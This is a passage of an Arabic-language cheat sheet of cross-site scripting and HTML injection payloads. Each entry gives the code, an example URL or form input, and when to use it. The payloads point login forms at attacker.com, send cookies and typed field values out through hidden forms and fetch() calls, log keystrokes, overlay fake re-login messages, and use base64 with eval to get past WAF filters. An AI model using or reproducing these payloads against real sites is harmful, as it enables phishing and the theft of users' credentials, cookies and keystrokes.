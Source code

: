   - **متى يُستخدم؟**: لخداع المستخدم لتحديث بياناته.
- **الحقن**: `<script>document.getElementById('login-form').action='http://attacker.com/log'</script>`
  - **الإدخال**: `https://example.com/#<script>document.getElementById('login-form').action='http://attacker.com/log'</script>`
  - **كيف يعمل**: يغير وجهة النموذج الأصلي إلى خادم المهاجم.
  - **متى يُستخدم؟**: للتلاعب بالنماذج الشرعية.
- **الحقن**: `<form action="http://attacker.com/log" style="position:absolute;top:0;left:0;opacity:0"><input type="text" name="data" value="'+document.cookie+'"><input type="submit"></form>`
  - **الإدخال**: أدخل في حقل: `<form action="http://attacker.com/log" style="position:absolute;top:0;left:0;opacity:0"><input type="text" name="data" value="'+document.cookie+'"><input type="submit"></form>`
  - **كيف يعمل**: يرسل ملفات تعريف الارتباط عبر نموذج مخفي.
  - **متى يُستخدم؟**: لسرقة البيانات دون ملاحظة.
#### الشرح العملي :


#### د. الحقن المستندة إلى الأحداث
استخدام أحداث تفاعلية لتشغيل الخداع.
- **الحقن**: `<div onclick="fetch('http://attacker.com/log')" style="position:absolute;top:0;left:0;width:100%;height:100%;opacity:0">اضغط هنا</div>`
  - **الإدخال**: `https://example.com/?search=<div onclick="fetch('http://attacker.com/log')" style="position:absolute;top:0;left:0;width:100%;height:100%;opacity:0">اضغط هنا</div>`
  - **كيف يعمل**: يرسل طلبًا عند النقر على أي مكان في الصفحة.
  - **متى يُستخدم؟**: لتتبع النقرات.
- **الحقن**: `<div onmouseover="document.body.innerHTML='<h1>خطأ: أعد تسجيل الدخول</h1>'" style="position:absolute;top:0;left:0;width:100%;height:100%">مرر هنا</div>`
  - **الإدخال**: أدخل في نموذج: `<div onmouseover="document.body.innerHTML='<h1>خطأ: أعد تسجيل الدخول</h1>'" style="position:absolute;top:0;left:0;width:100%;height:100%">مرر هنا</div>`
  - **كيف يعمل**: يغير الصفحة عند تمرير المؤشر.
  - **متى يُستخدم؟**: لتشغيل التزييف ديناميكيًا.
- **الحقن**: `<input onfocus="fetch('http://attacker.com/log?data='+this.value)" style="position:absolute;top:0;left:0;opacity:0" autofocus>`
  - **الإدخال**: `https://example.com/#<input onfocus="fetch('http://attacker.com/log?data='+this.value)" style="position:absolute;top:0;left:0;opacity:0" autofocus>`
  - **كيف يعمل**: يرسل البيانات المدخلة عند تركيز الحقل.
  - **متى يُستخدم؟**: لسرقة الإدخالات.
- **الحقن**: `<div onkeypress="fetch('http://attacker.com/log?key='+event.key)" style="position:absolute;top:0;left:0;width:100%;height:100%">اكتب هنا</div>`
  - **الإدخال**: أدخل في حقل: `<div onkeypress="fetch('http://attacker.com/log?key='+event.key)" style="position:absolute;top:0;left:0;width:100%;height:100%">اكتب هنا</div>`
  - **كيف يعمل**: يسجل المفاتيح المضغوطة.
  - **متى يُستخدم؟**: لتسجيل ضغطات المفاتيح.
- **الحقن**: `<div oncontextmenu="document.body.innerHTML='<h1>تم النقر الأيمن!</h1>'" style="position:absolute;top:0;left:0;width:100%;height:100%">انقر بزر الماوس الأيمن</div>`
  - **الإدخال**: `https://example.com/?search=<div oncontextmenu="document.body.innerHTML='<h1>تم النقر الأيمن!</h1>'" style="position:absolute;top:0;left:0;width:100%;height:100%">انقر بزر الماوس الأيمن</div>`
  - **كيف يعمل**: يغير الصفحة عند النقر الأيمن.
  - **متى يُستخدم؟**: لخداع المستخدم عند استخدام القائمة السياقية.
#### الشرح العملي :
#### هـ. حقن مع التعتيم
استخدام تقنيات التعتيم لتجنب الكشف.
- **الحقن**: `<script>eval(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUw9JzxidXR0b24gb25jbGljaz0iZmV0Y2goXCJodHRwOi8vYXR0YWNrZXIuY29tL2xvZ1wiKSI+U3VibWl0PC9idXR0b24+Jyk='))</script>`
  - **الإدخال**: أدخل في حقل: `<script>eval(atob('ZG9jdW1lbnQuYm9keS5pbm5lckhUTUw9JzxidXR0b24gb25jbGljaz0iZmV0Y2goXCJodHRwOi8vYXR0YWNrZXIuY29tL2xvZ1wiKSI+U3VibWl0PC9idXR0b24+Jyk='))</script>`
  - **كيف يعمل**: يفك تشفير Base64 لإنشاء زر ضار.
  - **متى يُستخدم؟**: لتجاوز فلاتر WAF.
- **الحقن**: `<script>document['body']['innerHTML']='<div style="position:absolute;top:0;left:0" onclick="fetch(\'http://attacker.com/log\')">Click</div>'</script>`
  - **الإدخال**: `https://example.com/?search=<script>document['body']['innerHTML']='<div style="position:absolute;top:0;left:0" onclick="fetch(\'http://attacker.com/log\')">Click</div>'</script>`